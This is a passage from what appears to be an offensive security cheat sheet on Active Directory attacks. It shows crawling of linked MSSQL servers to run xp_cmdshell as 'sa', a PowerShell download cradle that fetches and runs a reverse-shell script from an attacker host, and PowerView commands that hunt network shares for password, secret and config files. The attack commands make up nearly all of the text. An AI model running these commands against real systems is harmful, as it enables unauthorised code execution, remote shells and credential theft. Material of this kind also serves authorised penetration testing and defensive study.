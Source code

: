 From the results above the server `mssql-master-srv` is the enterprise level MSSSQL server running with "sa" privileges. The path field shows in order how this is accessible starting with `mssql-srv`. We can check for command execution specifying the first accessible instance in the path which, in this case is `mssql-srv`.

```bash
Get-SQLServerLinkCrawl -Instance "mssql-srv" -Query "exec master..xp_cmdshell 'whoami'"

Version     : SQL Server 2017
Instance    : mssql-master-srv
CustomQuery : {nt authority\network service, }
Sysadmin    : 1
Path        : {mssql-srv, mssql-srv-eu, mssql-master-srv}
User        : sa
Links       :
```

With confirmed command execution under the "sa" account on the `mssql-master-srv` we can then connect remotely by executing a `PowerShell` download cradle

```bash
Get-SQLServerLinkCrawl -Instance mssql-srv -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcp.ps1'')"' -E df
```

### Shares and Files Enumeration

**PowerView (Shares)**

```bash
# Find available shares on hosts in the current Domain
Find-DomainShare -Verbose

# Filter out uninteresting print shares
Find-DomainShare -Verbose -CheckShareAccess | Where-Object {$_.Name -ne "print$"} | FT -AutoSize

# Get all file servers on Domain
Get-DomainFileServer

# List all shares on specific domain system
Get-NetShare -ComputerName <Host>
```

**PowerView (Files)**

```bash
# Various
Find-InterestingDomainShareFile -verbose
Find-InterestingDomainShareFile -OfficeDocs
Find-InterestingDomainShareFile -Include *.ps1,*.bak,*.vbs,*.config,*.conf
Find-InterestingDomainShareFile -Terms account*,pass*,secret*,conf*,test*,salar*

# Individual examples
# Config files
Find-InterestingDomainShareFile -Include *.conifg | Select -ExpandProperty "Path" | Sort | Out-File "Config-Files.txt" -Encoding "ASCII"

# Bak files
Find-InterestingDomainShareFile -Include *.bak| Select -ExpandProperty "Path" | Sort | Out-File "Bak-files.txt" -Encoding "ASCII"

# Unattend files
Find-InterestingDomainShareFile -Include *unattend* | Select -ExpandProperty "Path" | Sort | Out-File "Unattend.txt" -Encoding "ASCII"

# Batch files
Find-InterestingDomainShareFile -Include *.bat | Select -ExpandProperty "Path" | Sort | Out-File "Batch-Files.txt" -Encoding "ASCII"
```